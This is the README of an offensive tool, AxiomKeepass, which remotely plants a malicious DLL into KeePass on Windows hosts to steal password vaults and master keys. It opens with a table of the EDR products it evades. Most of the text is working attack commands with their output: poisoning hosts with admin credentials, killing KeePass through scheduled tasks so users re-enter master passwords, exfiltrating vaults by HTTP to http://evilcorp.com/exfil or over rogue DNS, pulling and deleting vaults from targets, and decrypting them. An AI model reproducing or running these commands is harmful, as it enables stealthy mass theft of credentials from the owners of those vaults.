


## AxiomKeepass
Remotely poison and loot Keepass instances running on Windows

## Evasion efficiency
| Solution              | Status         |
|-----------------------|:--------------:|
| Defender AV           |  ✅ - OK       |
| Defender for Endpoint |  ✅ - OK       |
| Symantec EDR          |  ⚠️ - Untested |
| Kaspersky EDR         |  ⚠️ - Untested |
| Sophos                |  ⚠️ - Untested |
| Trend Micro           |  ⚠️ - Untested |
| HarfangLab            |  ✅ - OK       |
| WithSecure            |  ⚠️ - Untested |
| Cortex XDR            |  ✅ - OK (Cleartext credentials only if using --kill-first)       |
| Sentinel ONE          |  ✅ - OK       |
| Crowdstrike Falcon    |  ✅ - OK       |

## Demo
Poison remote instances and loot exported vaults :


Read a decrypted vault :


## Installation
### Dependencies
You will need to install mono in order to be able to compile DLLs on the fly : https://www.mono-project.com/download/stable/.

Check that you have the `mcs` command available:
```bash
$ mcs --version
Mono C# compiler version 6.14.1.0
```

### Python virtual environment
Create a python venv and install packet dependencies:
```bash
$ python3 -m venv venv-keepass
$ source ./venv/bin/activate
(venv-keepass) $ python3 -m pip install -r requirements
[...]
```

Next, install the packet:
```bash
(venv-keepass) $ python3 -m pip install .
[...]
```

This makes the command `axiom-keepass` globally available from within the venv:
```bash
(venv-keepass) $ axiom-keepass -h
usage: axiom-keepass [-h] {poison,pull,listen,cleanup} ...

positional arguments:
  {poison,pull,listen,cleanup}
                        Functioning mode

options:
  -h, --help            show this help message and exit
```

## Usage

### Step 1 - Poisoning

The first thing to do is to plant the DLL on the target(s). The program supports supplying targets in 3 different formats:
* Single IP address/FQDN (ie: 192.168.56.110)
* IP range in CIDR notation (ie: 192.168.56.0/24)
* File containing a list of IP addresses, FQDNs or IP ranges (ie: targets.txt)

This action is accomplished by the `axiom-keepass poison` subcommand.

#### Important options

##### `--loot-method`
Defines which data exfiltration method you want to use, and adapts the payload accrodingly. Available methods include:
- `--loot-method=disk-drop`: Default option. The vaults will get written to disk in an encrypted form. You will need to manually pull them with `axiom-keepass pull` subcommand.
- `--loot-method=upload`: Upload the vault and Master Key to an exfiltration HTTP server. Said server is started with `axiom-keepass listen` subcommand.
- `--loot-method=dns`: Transmits the vault and Master Key over DNS to an arbitrary roguer NameServer. Said server is started with `axiom-keepass listen --dns` subcommand.

##### `--upload-to`
Defines the target HTTP server to which vaults and Master Keys should be uploaded.

##### `--nameserver`
Defines the base rogue DNS server which will be used to exfiltrate the vaults and Master Keys using DNS queries.

##### `--kill-first`
Will attempt to kill any running KeePass.exe instances on the targets before trying to plant the malicious DLL.

#### Examples

For instance, say you have a workstation at 192.168.56.110, you can poison its KeePass installation by running:
```bash
$ axiom-keepass poison DOMAIN.local/Administrator:'Password123!'@192.168.56.110
[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmp528fb86v
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][+] Malicious DLL compiled for 192.168.56.110
[THREAD 0][+] Malicious DLL planted on 192.168.56.110
[THREAD 0][+] All targets processed
```

While you are at it, you can kill all running KeePass processes to force their users to re-open their database and provide the master password:
```bash
$ axiom-keepass poison \
    --kill-first \
    --loot-method=upload \
    --upload-to=http://evilcorp.com/exfil \
    DOMAIN.local/Administrator:'Password123!'@192.168.56.110

[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmpgyrtfjgj
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][+] Successfully bound to ATSVC on 192.168.56.110
[THREAD 0][*] Using task name: Ornament to kill process KeePass.exe on 192.168.56.110
[THREAD 0][+] Scheduled task successfully started, process KeePass.exe will terminate on 192.168.56.110
[THREAD 0][+] Malicious DLL compiled for 192.168.56.110
[THREAD 0][+] Malicious DLL planted on 192.168.56.110
[THREAD 0][+] All targets processed
```

NB: Do not use this option if you are against Cortex XDR and not using cleartext credentials, this will get detected and blocked

### Step 2 - Looting

Once the installation has been poisoned, you need to exfiltrate the vaults. This can be accomplished with two different subcommands:
- `axiom-keepass pull`: manually log into each target and look for exported vaults on the disk. If any is found, download the file then delete it from the target.
- `axiom-keepass liten`: start a listener server that will automatically receive vaults (and the Master Key, if provided) over the network.

#### Pulling

Pulling is the action of manually checking if any vault export has been written to disk, accomplished by the `axiom-keepass pull` subcommand:
```bash
(venv-keepass) $ axiom-keepass pull -h
usage: axiom-keepass pull [-h] [-hashes HASHES] [-aesKey AESKEY] [-k]
                          [-dc-ip DC_IP] [-no-pass] [-t THREADS] [-monitor]
                          [-monitor-delay MONITOR_DELAY]
                          target

positional arguments:
  target                Target machine or range
                        [domain/]username[:password]@<IP, IP RANGE, FQDN or
                        FILE>

options:
  -h, --help            show this help message and exit
  -hashes HASHES, --hashes HASHES
                        LM:NT hash
  -aesKey AESKEY, --aesKey AESKEY
                        AES key to use for Kerberos Authentication
  -k                    Use kerberos authentication.
  -dc-ip DC_IP, --dc-ip DC_IP
                        IP Address of the domain controller
  -no-pass, --no-pass   Do not prompt for password
  -t THREADS, --threads THREADS
                        The number of threads to use, default: 10
  -monitor, --monitor   Run in monitor mode, will try to pull for new vaults
                        every X seconds, where X is defined by --monitor-delay
  -monitor-delay MONITOR_DELAY, --monitor-delay MONITOR_DELAY
                        The delay in seconds between each pull when running in
                        monitor mode
```

##### Important options

###### `--monitor`
Enables monitor mode. Will automatically retry the pull action every X seconds.

###### `--monitor-delay`
Defines the numbe of seconds to wait between each pull attempt when running in monitor mode. Defaults to 60.


##### Examples

```bash
$ axiom-keepass pull --monitor --monitor-delay 600 DOMAIN.local/Administrator:'Password123!'@192.168.56.110
[THREAD 0] Thread spawned
[THREAD 0][*] Using tmp dir /tmp/tmpgv05rp4j
[THREAD 0][*] Processing target 192.168.56.110
[THREAD 0][+] Successful login to 192.168.56.110
[THREAD 0][*] Pulling from 192.168.56.110
[THREAD 0][*] Searching in All Users
[THREAD 0][*] Searching in Default
[THREAD 0][*] Searching in Default User
[THREAD 0][*] Searching in MALDEV
[THREAD 0][+] Found a vault! File size is 9792 bytes
[THREAD 0][+] Download 192.168.56.110_MALDEV_axiomvault.enc file with 9792 bytes
[THREAD 0][+] 192.168.56.110_MALDEV_axiomvault.enc dropped to disk
[THREAD 0][+] Vault deleted from 192.168.56.110
[THREAD 0][*] Searching in Public
[THREAD 0][+] All targets processed
```

#### Listening server

To avoid manually polling every X seconds into every target of the range, the option has been added to start an exfiltration server to which data will get automatically sent upon vault unlocking. 

This of course needs to be used with the correct poisoning options beforehand.

This action is accmomplished with the `axiom-keepass listen` subcommand

##### Important options

###### `--port`
Specifies on which port the server will listen on. Works with HTTP or DNS listeners.

###### `--dns`
Toggles the listener to a DNS server. Data will get exfiltrated through DNS queries to a rogue NameServer. Slower but stealthier.

##### Examples

```bash
(venv-keepass) $ axiom-keepass listen --dns --port 5350
[+] Started looting DNS server on port 5350
[+] User john.smith is reaching out
[+] Receiving file chunk for user john.smith
[+] Receiving file chunk for user john.smith
[...]
[+] File john.smith.1.kdbx written to disk
```

### Step 3 - Cleaning

TODO
TLDR: `axiom-keepass cleanup` subcommand.

### Step 4 - Decrypting

The vaults exported to disk are encrypted (granted, with a constant key, which isn't good. Dynamic keys support is soon to come). You must decrypt them first before reading them:
```bash
$ bash Scripts/decrypt.sh path/to/vault.enc
$ otree path/to/vault.clear
```

## Community

Opening issues or pull requests very much welcome.
Suggestions welcome as well.

## License

This software is under GNU GPL 3.0 license (see LICENSE file).
This is a free, copyleft license that allows users to run, study, share, and modify software, provided that all distributed versions and derivatives remain open source under the same license.
